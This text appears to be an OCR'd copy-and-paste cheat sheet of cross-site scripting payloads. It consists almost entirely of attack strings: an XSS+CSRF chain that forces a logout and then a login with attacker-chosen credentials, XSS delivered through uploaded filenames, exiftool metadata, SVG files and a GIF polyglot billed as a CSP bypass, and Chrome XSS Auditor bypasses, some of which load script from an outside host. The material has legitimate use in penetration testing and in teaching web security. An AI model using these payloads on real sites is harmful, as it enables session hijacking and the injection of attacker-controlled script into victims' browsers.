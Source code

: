 Copy & Paste

XSS + CSRF

<iframe src=LOGOUT_URL onload=forms[0].submit()>
</iframe><form method=post action=LOGIN_URL>
<input name=USERNAME_PARAMETER_NAME value=USERNAME>
<input name=PASSWORD_PARAMETER_NAME value=PASSWORD>
<iframe src=//localhost/self/logout.php
onload=forms[0].submit()></iframe><form method=POST
action=//localhost/self/login.php?returnURL=changemail.php>
<input name=username value=brute>
<input name=password value=logic>

File Upload

Injection in Filename

"><img src=1 onerror=alert(1)>.gif

Injection in Metadata

$ exiftool -Artist='"><img src=1 onerror=alert(1)>' FILENAME.jpeg

Injection with SVG File

<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
Injection with GIF File as Source of Script (CSP Bypass)
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;

File Upload XSS

1) Filename

2) Metadata

$ exiftool -FIELD=XSS FILE

$ exiftool -Artist=' "><img src=1 onerror=alert(document.domain)>' brute.jpeg

3) Content

<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

4) Source

GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
Google Chrome Auditor Bypass (up to v51)
<script src="data:,alert(1)//
"><script src=data:,alert(1)//
<script src="//brutelogic.com.br/1.js#
"><script src=//brutelogic.com.br/1.js#
<link rel=import href="data:text/html,<script>alert(1)</script>
"><link rel=import href=data:text/html,<script>alert(1)</script>

Chrome XSS Bypass

 "><script src=data:%26comma;alert(1)-"
 <input value="INPUT">
 <input value=""><script src=data:%26comma;alert(1)-"">
 <script src="URL"></script>
<script type="text/javascript"></script>
